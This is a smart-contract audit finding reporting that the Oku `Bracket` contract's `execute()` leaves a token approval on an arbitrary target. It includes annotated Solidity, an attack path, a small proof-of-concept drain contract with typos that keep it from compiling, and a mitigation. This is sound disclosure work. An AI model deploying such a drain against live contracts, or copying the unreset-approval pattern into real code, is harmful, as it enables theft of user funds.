Decent Smoke Owl

High

# Not setting approval to 0 when doing swaps can lead to draining of funds

### Summary

The `execute()` function in the `Bracket` contract is vulnerable due to a missing reset of the token approval to zero after executing a swap. While the function allows an external call to an arbitrary address with arbitrary calldata, which alone does not indicate a vulnerability, the lack of resetting the approval allows attackers to drain funds from the contract. By not setting the approval for the target address to zero after the swap, the contract effectively leaves a persistent approval that can be exploited.
### Root Cause

Missing approval reset.

The external call can be to any address with any calldata and this is possible because there are two important checks presented - tokenIn spent is not more than the amount provided by user and the amount out is not less than the expected amount based on current market price. This allows the protocol to call any address when these two requirements are fulfilled. Apart from that all unused tokenIn amount is returned back to the user.

Added comments directly into the function implementation:

```solidity
function execute(
        address target,
        bytes memory txData,
        uint256 amountIn,
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint16 bips
    ) internal returns (uint256 swapAmountOut, uint256 tokenInRefund) {
        //update accounting
        uint256 initialTokenIn = tokenIn.balanceOf(address(this));
        uint256 initialTokenOut = tokenOut.balanceOf(address(this));


        // Since target can be any address, it can be also a user controlled one:
        tokenIn.safeApprove(target, amountIn);


        // User's contract can just provide the expected token without using the approved tokenIn amount.
        (bool success, bytes memory result) = target.call(txData);


        if (success) {
	        // finalTokenIn remains the same as the target havent taken any, it just provided enough tokenOut
            uint256 finalTokenIn = tokenIn.balanceOf(address(this));
            // requirment is fullfulled since finalTokenIn = initialTokenIn
            require(finalTokenIn >= initialTokenIn - amountIn, "over spend");
            // finalTokenOut is increased because of target sending the tokens
            uint256 finalTokenOut = tokenOut.balanceOf(address(this));


            // This check passes as target has provided enough tokenOut
            require(
                finalTokenOut - initialTokenOut >
                    MASTER.getMinAmountReceived(
                        amountIn,
                        tokenIn,
                        tokenOut,
                        bips
                    ),
                "Too Little Received"
            );

			// swapAmountOut is the actually provided tokens from target
            swapAmountOut = finalTokenOut - initialTokenOut;
            // tokenInRefund is equal to amountIn, since no tokens were spend, sending back all user provided funds
            tokenInRefund = amountIn - (initialTokenIn - finalTokenIn);
        } else {
            //force revert
            revert TransactionFailed(result);
        }
    }
```

After `execute()` function all accounting in the contract is correct - user has swapped the tokens himself and now has provided `tokenOut`. But there is one more problem - user's contract is approved to spent `amountIn` for `tokenIn`.


`execute()`: https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L526C1-L568C6
### Internal pre-conditions

N/A
### External pre-conditions

N/A
### Attack Path

- The attacker specifies a `target` address and arbitrary `txData` to call the `target` contract.
- During the execution of `target.call(txData)`, the malicious `target` contract completes the swap by providing the expected `tokenOut` amount but does not use the approved `tokenIn`.
- After the swap, the `target` contract still retains approval to spend `tokenIn` for the approved amount.
- The function continues execution and returns accounted values - `swapAmountOut`, `tokenInRefund`
- `tokenInRefund` will be exactly the same as attacker input amount thus sending back his initial funds.
- This is correct except that the attacker is still approved to spent protocol's funds, leading to double spending
### Impact

Loss of funds.
### PoC

Example `target` contract:
```solidity
contract CustomContract {

    function swap(address tokenOut, uint256 amount) external {
        IERC20(tokenOut).tranfer(msg.sender, amount);
    }

    function takeFunds(address sender, address recipient, address token, uint256) external {
        IERC20(token).tranferFrom(sender, recipient, amount);
    }
}
```

Attacker creates and order with `target` address of the example contract, and `txData` such that it would call `swap()` with the expected market price of the swap.
Later attacker can use `takeFunds()` to transfer the approved amount.
### Mitigation

Set approval for target to 0 after making the external call.